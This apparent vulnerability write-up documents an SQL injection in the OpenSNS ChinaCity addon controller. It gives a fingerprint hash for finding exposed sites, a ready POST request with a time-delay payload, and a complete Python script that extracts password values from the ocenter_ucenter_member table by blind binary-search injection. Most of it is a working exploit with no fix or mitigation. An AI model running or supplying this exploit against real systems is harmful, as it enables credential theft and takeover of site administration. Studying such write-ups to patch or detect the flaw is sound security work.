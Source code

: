 # OpenSNS ChinaCityController.class.php SQL injection vulnerability

## Vulnerability Description

In the OpenSNS ChinaCityController.class.php file, you can execute any SQL commands by splicing SQL statements to obtain the user account password.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">OpenSNS</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">icon_hash="1167011145"</span>

## Vulnerability reappears

The login page is as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634371874190-3653480e-380a-4cdc-81fc-7d560bc7d0dc.png)

The file with vulnerability is `Addons/ChinaCity/Controller/ChinaCityController.class.php`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634530581898-96bfb012-9b06-4000-8688-3f60e59fe5af.png)

The user-controllable parameters are cid and pid, and the SQL statement is viewed through debugging.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634530661937-f8552b8b-a5c2-4633-9cef-e20b31154085.png)

Constructing requests to close SQL statements, causing SQL injection

```php
POST /index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html

cid=0&pid[0]==(select*from(select+sleep(3)union/**/select+1)a)and+1+in+&pid[1]=1
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634531129827-a6c0bd01-e6e8-41a8-a7aa-0d0349843d9e.png)

Through dichotomous delay injection, you can get the user account password and log in to the background

```php
import time
import requests

url = "https://peiqi.com:8888/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html"

flag = ""
for i in range(1,100):
    low = 32
    high = 128
    while low < high:
        headers = {
            "Content-Type": "application/x-www-form-urlencoded",
            "X-Requested-With": "XMLHttpRequest"
        }
        mid = (low + high)//2
        data = "cid=0&pid[0]==(select*from(select+if(ascii(substr((select/**/password/**/from/**/ocenter_ucenter_member),{},1))<{},sleep(2),1)union/**/select+1)a)and+3+in+&pid[1]=3".format(i,mid)
        timeStart = time.time()
        r = requests.post(url=url, data=data, headers=headers)
        timeEnd = time.time()
        # print(r.text, low, high, data,timeStart-timeEnd)
        if timeEnd - timeStart >= 1: 
            high = mid
        else:
            low = mid + 1
    if low == high == 32:
        print("No  result")
        break
    flag += chr((high + low - 1)//2)
    print(flag)
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634531377138-0fc38dc3-684c-41d1-a3bb-974274f025fd.png)